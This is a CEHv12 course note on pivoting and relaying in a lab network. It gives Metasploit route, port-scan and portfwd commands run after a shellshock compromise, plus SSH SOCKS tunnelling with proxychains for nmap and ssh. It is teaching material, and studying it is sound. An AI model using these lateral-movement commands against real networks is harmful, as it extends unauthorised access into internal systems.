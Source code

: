 - Filename: eccouncil-ceh31250-v12-6-13-1-pivoting.md
- Show Name: CEHv12 (312-50)
- Topic Name: System Hacking Phases and Attack Techniques - System Hacking
- Episode Name: Pivoting
================================================================================


Pivoting
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------

--------------------------------------------------------------------------------


+ What is pivoting?
  - Using a compromised system to access other network hosts
    + Eternal attacker now has access to target's internal systems

+ What is relaying?
  - Pivoting + using resources on internal system
    + Attacker sets up port forwarding to allow the attack box to access internal
      system resources like HTTP, SSH, SMB, etc

+ Pivot Demo
  - Kali <---> BeeBox <---> Metasploitable2
  - After successful exploit of BeeBox (metasploit/shellshock)
    + ```
      ifconfig
      route
      route add 172.16.32.0/24 1
      background
      use auxiliary/scanner/portscan/tcp
      set rhosts 172.16.32.129
      run
      ```

+ Relay Demo
  - Exploit BeeBox (metasploit/shellshock)
  - Add route to internal network
  - Scan ports with metasploit auxiliary/scanner/portscan/tcp
  - Use portforwarding to access internal resources
    + Must have session active
    + ```
      portfwd add -l 20080 -p 80 -r 172.16.32.129
      portfwd add -l 20022 -p 22 -r 172.16.32.129
      portfwd add -l 20443 -p 443 -r 172.16.32.129
      ```
+ ProxyChains
  - Use ssh to forward traffic
    + `ssh -D 127.0.0.1:1080 bee@192.168.202.133`
  - From a new terminal
    + Edit `/etc/proxychains.conf`
      - Add line `socks4 127.0.0.1 1080`
  - Use commands with **ProxyChains**
    + `proxychains nmap -sT -n -Pn -p 21-25 172.16.32.129`
    + `proxychains ssh -o HostKeyAlgorihms=+ssh-rsa msfadmin@172.16.32.129`

+ Other tools
  - Plink
  - Chisel
  - SOCAT
